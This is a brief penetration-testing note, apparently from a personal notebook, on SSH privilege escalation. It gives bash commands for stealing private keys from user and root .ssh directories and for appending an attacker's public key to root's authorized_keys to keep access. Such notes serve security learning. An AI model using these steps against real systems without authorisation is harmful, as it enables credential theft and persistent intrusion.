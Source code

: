 ```yaml
---
id: SSH_Escalation
aliases: []
tags: []
---
```

# SSH Escalation

To elevate privilges on a system via SSH, you can follow these steps:

## Steps 

1. view private ssh keys found at /home/user/.ssh/ or /root/.ssh/id.rsa
2. copy id_rsa files to hacking machine

```bash 
vim id_rsa
chmod 600 id_rsa
ssh root@<ip> -i id_rsa
```

1. If we have write acess to a user /.shh/ direcroty; place public key in authorized_keys file
2. this technique is used to gain control over the shell. 
3. create a new key with: 

```bash
ssh-keygen -f key 
```

4. This will give up two key files which we will use with ssh -i and key.pub which we will copy to the remote server. 
5. add key.pub to /root/.ssh/authorized_keys: 
```bash
echo "ssh-rsa AAAAB...SNIP...M= user@machine" >> /root/.ssh/authorized_keys
```

6. Now log on to the remote server 

```bash 
ssh root@<ip> -i key
```



 



